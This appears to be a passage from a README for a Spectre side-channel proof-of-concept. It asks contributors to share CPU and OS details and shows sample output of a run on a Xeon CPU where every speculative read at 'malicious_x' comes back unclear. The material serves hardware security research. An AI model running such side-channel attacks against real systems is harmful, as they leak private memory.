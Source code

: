 ## Contributing

Feel free to add your results to the "Results" issue. Include your cache hit threshold, OS details, CPU details like vendor Id, family, model name, stepping, microcode, MHz, and cache size. The OS can be found by running `uname -a`. CPU info can be found by running `cat /proc/cpuinfo` on Linux, and `sysctl -a | grep machdep.cpu` on OSX.

## Example output

The following was output on an Intel(R) Xeon(R) Gold 6142 CPU CPU, with a cache hit threshold of 218 showing the indifference of results. Any threshold smaller than 218 results in no hits and hence the last item receives all scores.

`./spectre-FAIL 218:`

```
Using a cache hit threshold of 218.
Build: RDTSCP_SUPPORTED MFENCE_SUPPORTED CLFLUSH_SUPPORTED INTEL_MITIGATION_DISABLED LINUX_KERNEL_MITIGATION_DISABLED MPK_TRAINOUTSIDE_ENABLED
Reading 40 bytes:
Reading at malicious_x = 0xfffffffffffff000... Unclear: 0x31=’1’ score=390 (second best: 0x62=’b’ score=332)
Reading at malicious_x = 0xfffffffffffff001... Unclear: 0x31=’1’ score=367 (second best: 0x58=’X’ score=335)
Reading at malicious_x = 0xfffffffffffff002... Unclear: 0x31=’1’ score=386 (second best: 0x58=’X’ score=309)
Reading at malicious_x = 0xfffffffffffff003... Unclear: 0x31=’1’ score=350 (second best: 0x58=’X’ score=336)
Reading at malicious_x = 0xfffffffffffff004... Unclear: 0x31=’1’ score=361 (second best: 0x58=’X’ score=338)
Reading at malicious_x = 0xfffffffffffff005... Unclear: 0x58=’X’ score=348 (second best: 0x31=’1’ score=346)
Reading at malicious_x = 0xfffffffffffff006... Unclear: 0x31=’1’ score=364 (second best: 0x58=’X’ score=343)
Reading at malicious_x = 0xfffffffffffff007... Unclear: 0x31=’1’ score=382 (second best: 0x62=’b’ score=325)
Reading at malicious_x = 0xfffffffffffff008... Unclear: 0x31=’1’ score=355 (second best: 0x58=’X’ score=320)
Reading at malicious_x = 0xfffffffffffff009... Unclear: 0x62=’b’ score=357 (second best: 0x31=’1’ score=357)
Reading at malicious_x = 0xfffffffffffff00a... Unclear: 0x31=’1’ score=382 (second best: 0x58=’X’ score=341)
Reading at malicious_x = 0xfffffffffffff00b... Unclear: 0x31=’1’ score=351 (second best: 0x62=’b’ score=338)
Reading at malicious_x = 0xfffffffffffff00c... Unclear: 0x31=’1’ score=364 (second best: 0x62=’b’ score=348)
Reading at malicious_x = 0xfffffffffffff00d... Unclear: 0x31=’1’ score=359 (second best: 0x62=’b’ score=353)
Reading at malicious_x = 0xfffffffffffff00e... Unclear: 0x31=’1’ score=363 (second best: 0x62=’b’ score=351)
Reading at malicious_x = 0xfffffffffffff00f... Unclear: 0x31=’1’ score=361 (second best: 0x62=’b’ score=331)
Reading at malicious_x = 0xfffffffffffff010... Unclear: 0x31=’1’ score=372 (second best: 0x62=’b’ score=348)
Reading at malicious_x = 0xfffffffffffff011... Unclear: 0x31=’1’ score=381 (second best: 0x58=’X’ score=347)
Reading at malicious_x = 0xfffffffffffff012... Unclear: 0x31=’1’ score=372 (second best: 0x58=’X’ score=340)
Reading at malicious_x = 0xfffffffffffff013... Unclear: 0x31=’1’ score=382 (second best: 0x62=’b’ score=327)
Reading at malicious_x = 0xfffffffffffff014... Unclear: 0x31=’1’ score=384 (second best: 0x58=’X’ score=342)
Reading at malicious_x = 0xfffffffffffff015... Unclear: 0x31=’1’ score=366 (second best: 0x62=’b’ score=332)
```